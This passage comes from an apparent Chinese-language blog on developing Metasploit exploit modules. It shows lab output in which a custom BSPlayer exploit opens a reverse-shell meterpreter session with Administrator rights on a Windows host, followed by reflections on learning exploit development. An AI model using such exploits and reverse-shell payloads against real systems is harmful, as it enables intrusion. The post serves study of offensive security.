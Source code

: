 测试：

不再贴上配置模块的过程，payload用反向shell。

![Bildschirmfoto 2018-10-28 um 9.58.47 PM.png]({{ site.url }}/images/metasploit/1F9BEE341425AD8D7EDB8A70A9A58AF2.png)

```
msf exploit(rambo/my_bsplayer) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  DESTINY-7846DE5\Administrator @ DESTINY-7846DE5  172.16.56.1:4444 -> 172.16.56.134:1115 (172.16.56.134)

msf exploit(rambo/my_bsplayer) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESTINY-7846DE5\Administrator
```

最后，其实除了TcpServer，Metasploit还有HttpServer，能够建立HTTP服务器。

## 总结

Exploit-DB对于研究学习相当有帮助！整个过程中凸显出来短板在于**漏洞发现、漏洞点定位**能力。未来有侧重地学习研究应该可以补足。

通过这一章的学习研究，我深刻体会到了逆向能力的重要，下层基础决定上层建筑。

从第二章到第四章，已经学习了辅助模块、后渗透模块和渗透模块的开发。Metasploit真的很强大，但是我对于它的内部运行机制还有很多不懂的地方。未来打算研究一下它的内部原理了。

另外，将别的语言编写的ExP移植到Metasploit很轻松。